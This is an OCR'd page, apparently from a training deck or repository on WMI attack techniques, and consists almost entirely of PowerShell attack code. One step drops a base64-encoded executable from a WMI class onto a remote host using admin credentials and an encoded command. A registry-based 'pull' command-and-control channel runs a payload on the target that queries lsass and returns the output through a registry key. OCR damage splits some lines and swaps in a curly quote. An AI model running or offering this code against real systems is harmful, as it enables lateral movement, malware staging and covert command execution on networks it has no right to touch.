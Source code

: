**Second Step** - Drop file contents to remote system
```
$Credential = Get-Credential 'CORP.local\admin'
$CommonArgs = @{
Credential = $Credential
ComputerName = '192.168.2.10'
}
$PayloadText = @'
$EncodedFile = ([WmiClass] 'root\default:Win32_EvilClass').Properties['EvilProperty'].Value
[IO.File]::WriteAllBytes('C:\reconstructedMaliciousFile.exe', [Convert]::FromBase64String($EncodedFile))
'@
$EncodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($PayloadText))
$PowerShellPayload = "powershell -NoProfile -EncodedCommand $EncodedPayload"
# Drop it like it's hot
Invoke-WmiMethod @CommonArgs -Class Win32_Process -Name Create -ArgumentList $PowerShellPayload
# Confirm successful file drop
Get-WmiObject @CommonArgs -Class CIM_DataFile -Filter 'Name = "C:\\reconstructedMaliciousFile.exe"'
```

#### WMI Attacks – C2 Communication (Registry) – “Pull” Attack
**First Step** - Registry Key creation
```
$Credential = Get-Credential 'CORP.local\admin'
$CommonArgs = @{
Credential = $Credential
ComputerName = '192.168.2.10'
}
$HKLM = 2147483650
Invoke-WmiMethod @CommonArgs -Class StdRegProv -Name CreateKey -ArgumentList $HKLM,
'SOFTWARE\EvilKey‘
Invoke-WmiMethod @CommonArgs -Class StdRegProv -Name DeleteValue -ArgumentList $HKLM,
'SOFTWARE\EvilKey', 'Result'
```

**Second Step** - Retrieving payload in registry
```
$PayloadText = @'
$Payload = {Get-Process lsass}
$Result = & $Payload
$Output = [Management.Automation.PSSerializer]::Serialize($Result, 5)
$Encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Output))
Set-ItemProperty -Path HKLM:\SOFTWARE\EvilKey -Name Result -Value $Encoded
'@
$EncodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($PayloadText))
$PowerShellPayload = "powershell -NoProfile -EncodedCommand $EncodedPayload"
Invoke-WmiMethod @CommonArgs -Class Win32_Process -Name Create -ArgumentList $PowerShellPayload
$RemoteOutput = Invoke-WmiMethod @CommonArgs -Class StdRegProv -Name GetStringValue -
ArgumentList $HKLM, 'SOFTWARE\EvilKey', 'Result'
$EncodedOutput = $RemoteOutput.sValue
$DeserializedOutput =
[Management.Automation.PSSerializer]::Deserialize([Text.Encoding]::Ascii.GetString([Convert]::F
romBase64String($EncodedOutput)))
```

